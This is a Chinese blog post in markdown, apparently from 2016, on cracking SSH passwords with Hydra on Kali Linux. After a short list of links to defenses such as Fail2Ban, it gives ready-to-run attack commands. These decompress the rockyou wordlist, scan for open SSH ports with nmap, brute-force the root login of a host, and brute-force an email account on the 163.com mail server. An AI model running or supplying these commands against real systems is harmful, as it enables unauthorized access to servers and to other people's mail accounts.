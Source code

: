 ```yaml
---
layout: post
title: 使用Hydra通过ssh破解密码
---
```


Hydra是非常高效的网络登录破解工具，它可以对多种服务程序执行[暴力破解](http://topspeedsnail.com/hack-brute-force/)（SSH、VNC等等）。

防止这种攻击其实很容易，方法很多。以SSH为例：

* [Ubuntu：使用Port Knocking隐藏SSH端口](http://blog.topspeedsnail.com/archives/3936)
* [在Ubuntu中用Fail2Ban保护SSH](http://blog.topspeedsnail.com/archives/262)
* [CentOS 7安装使用Fail2Ban保护SSH](http://blog.topspeedsnail.com/archives/3119)
* [Debian使用Fail2Ban和Tinyhoneypot增加网络安全](http://blog.topspeedsnail.com/archives/3667)

*****

Kail Linux有一个的GUI版本：xhydra，也有一个命令行版本：hydra。

xhydra：

![xhydra]({{ site.baseurl }}/images/2016/4/Screenshot from 2016-04-16 10-26-48.png)

hydra：

![hydra]({{ site.baseurl }}/images/2016/4/Screenshot from 2016-04-16 10-28-41.png)

我使用命令行版本：hydra

### 字典

这种攻击需要字典文件，一个好的字典至关重要。我以Kali Linux自带的rockyou字典为例，位于/user/share/wordlists/rockyou.txt.gz。

使用前先解压：

{% highlight shell %}
# gzip -d /usr/share/wordlists/rockyou.txt.gz
{% endhighlight %}

### 使用nmap扫描开启SSH服务的主机

扫描SSH服务(22端口)，确定可以施行破解的主机。

{% highlight shell %}
＃ nmap -p 22 -open -sV one_IP_or_range_or_subnet > MyTarget
{% endhighlight %}

### 使用hydra暴力破解

{% highlight shell %}
# hydra -s 22 -v -l root -P /usr/share/wordlists/rockyou.txt 192.168.0.108 ssh
{% endhighlight %}

****

破解邮箱密码：

```
# hydra -S -l test@163.com -P /usr/share/wordlists/rockyou.txt -e ns -V -s 465 -t 1 smtp.163.com smtp
```

更多选项，查看man hydra。
